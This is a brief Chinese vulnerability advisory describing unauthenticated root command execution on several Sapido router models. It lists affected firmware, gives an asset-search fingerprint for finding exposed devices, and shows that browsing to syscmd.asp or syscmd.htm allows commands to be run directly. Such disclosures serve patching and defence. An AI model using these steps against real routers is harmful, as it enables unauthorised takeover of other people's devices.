 # 

# Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```

## 网络测绘

```
app="Sapido-路由器"
```

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](./images/202202162237726.png)

访问目标：

```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](./images/202202162237444.png)

直接输入就可以命令执行了


